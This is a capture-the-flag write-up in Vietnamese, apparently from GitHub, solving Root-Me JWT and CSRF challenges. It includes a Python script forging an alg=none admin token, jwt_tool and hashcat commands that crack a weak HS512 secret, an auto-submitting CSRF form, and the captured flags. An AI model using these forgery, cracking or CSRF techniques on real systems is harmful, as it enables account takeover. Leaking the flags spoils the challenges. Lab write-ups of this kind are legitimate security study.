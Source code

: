 # Trần Mạnh Huy - JWT - json web token
<hr>

* [Chall 1: JSON Web Token (JWT) - Introduction](#chall-1-json-web-token-jwt---introduction)
* [Chall 2: JSON Web Token (JWT) - Weak secret](#chall-2-json-web-token-jwt---weak-secret)
* [Chall 3: JSON Web Token (JWT) - Public key](#chall-4-json-web-token-jwt---public-key) 
* [Chall 4: CSRF - 0 protection](#chall-4-csrf---0-protection)
* [Chall 5: CSRF - token bypass](#chall-5-csrf---token-bypass)

<hr>

## Chall 1: JSON Web Token (JWT) - Introduction
```
To validate the challenge, connect as admin.
```
Ta có login form như sau 

![image](https://user-images.githubusercontent.com/104350480/219703907-2e0197cf-93da-4230-a230-164f0473c52c.png)

Để ý có nhấn vào guest thử rồi check burp:

![image](https://user-images.githubusercontent.com/104350480/219705924-bb74b020-b6d7-48b5-a735-c662ef36634e.png)

Sửa thử username = admin thì server trả về lỗi: 

![image](https://user-images.githubusercontent.com/104350480/219708136-04c02ff0-8a0f-4ce9-891f-fee65f60067a.png)



Thế thì ta chỉnh alg = none vì để none thì server sẽ kh xác thực signature nữa, ta xóa phần signature cũng được và lỗi cũng biến mất, ta được kết quả.

![image](https://user-images.githubusercontent.com/104350480/219706460-833ef24c-d343-48b9-9eff-aa7d2a16d3ae.png)

> flag: S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7

```
import base64
import json

header = {'typ':'JWT', 'alg':'none'}
payload = {'username':'admin'}
header_encoded = base64.urlsafe_b64encode(json.dumps(header).encode()).decode('utf-8').rstrip('=')
payload_encoded = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode('utf-8').rstrip('=')
data = header_encoded +'.'+payload_encoded+'.'
print(data)
```

## Chall 2: JSON Web Token (JWT) - Weak secret

```
"Let's play a small game, I bet you cannot access to my super secret admin section. Make a GET request to /token and use the token you'll get to try to access /admin with a POST request."

```

![image](https://user-images.githubusercontent.com/104350480/219711939-05cb4769-bdef-4024-aea3-2e92e5ffb132.png)

Mở đường dẫn /token ta có token:

> Here is your token	"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw"

![image](https://user-images.githubusercontent.com/104350480/219831488-82906321-0618-429f-a177-6ed253af0c4f.png)


Chuyển sang phương thức POST /admin, ta có: 

![image](https://user-images.githubusercontent.com/104350480/219831018-a2a1142c-255f-42ca-a9b4-9a897db12daf.png)

Thêm Authorization vào xem được gì nào: 

![image](https://user-images.githubusercontent.com/104350480/219831273-213e8862-495d-4558-b382-0bd9f36e0e7a.png)

Bài này dùng alg: HS512, thì như tên bài thì có vẻ secret key khá yếu, dùng tool để bruteforce xem sao: Ở đây ta dùng jwt_tool với list đơn giản
từ rockyou.txt

> payload: python3 jwt_tool.py --token --C -d /usr/share/wordlists/rockyou.txt 

![image](https://user-images.githubusercontent.com/104350480/219830868-0655a46b-6375-4fa5-bab8-da0cac9e3afd.png)

Oke vậy là ta có được secretkey là lol, giờ ném lên jwt.io chỉnh lại payload thành admin và thêm secretkey lol là xong: 

![image](https://user-images.githubusercontent.com/104350480/219832730-a58fad6e-e2cb-48c3-a422-c3b4d957b817.png)

> Flag: PleaseUseAStrongSecretNextTime
 
Hoặc có thể dùng cách khác để bruteforce khá đơn giản là dùng hashcat

>payload: hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlists/rockyou.txt --force

> https://hashcat.net/wiki/doku.php?id=example_hashes

![image](https://user-images.githubusercontent.com/104350480/219835386-3adb6412-afff-454e-80fa-f1b89997c6ba.png)

Ta cũng có được secretkey tương ứng là lol

![image](https://user-images.githubusercontent.com/104350480/219836351-03ba3270-2447-4a15-a901-d7d27cab47c5.png)

## Chall 4: CSRF - 0 protection

Mở vào chall là có:

![image](https://user-images.githubusercontent.com/104350480/219910186-addd360d-2a09-4472-9427-149f8b36bcea.png)

Vì là dạng csrf nên chưa khai thác được gì, ta register rồi đăng nhập vào trang thì được

![image](https://user-images.githubusercontent.com/104350480/219910295-afb165e6-3a6a-42d3-a3c1-2446afbfee15.png)

Mục tiêu bây giờ là phải xem được thông tin private, hay phải bật được status on của mình chỗ profile:

![image](https://user-images.githubusercontent.com/104350480/219911520-c7c9b76e-6368-4759-acd4-0e105050cada.png)

Ta có thể để ý status đang bị disabled, ta có thể sửa lại thành value="on", nhưng tất nhiên là không thu được gì, server trả về "You're not admin"

![image](https://user-images.githubusercontent.com/104350480/219912788-791a0026-95e1-4087-aca3-860e82f9efb1.png)

Bây giờ ta cần gửi 1 form tương tự để lừa admin kick vào link ta gửi. Lấy luôn source code từ trang và thêm link trang vào phần action:

```
<form id="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
<div>
<label>Username:</label>
<input id="username" type="text" name="username" value="huy123456">
</div>
<br>		
<div>
<label>Status:</label>
<input id="status" type="checkbox" name="status" value="on" >
</div>
<br>
<input id="token" type="hidden" name="token" value="dd29a211ad5ad8b6e426dde5150648dd" />
<button type="submit">Submit</button>
</form>
   
   ```
 Sửa lại form 1 chút, thêm script để tự động gửi submit: 
 
 ```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF</title>
</head>
<body>
    <form id="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="username" value="huy123456" />
    <input type="hidden" name="status" value="on" />
    </form>
<script> document.getElementById("csrf").submit()</script> 
</body>
</html>

```

Đợi 1 lúc ta được flag trả về:

> Csrf_Fr33style-L3v3l1!

## Chall 5: CSRF - token bypass

```
Activate your account to access intranet.

```


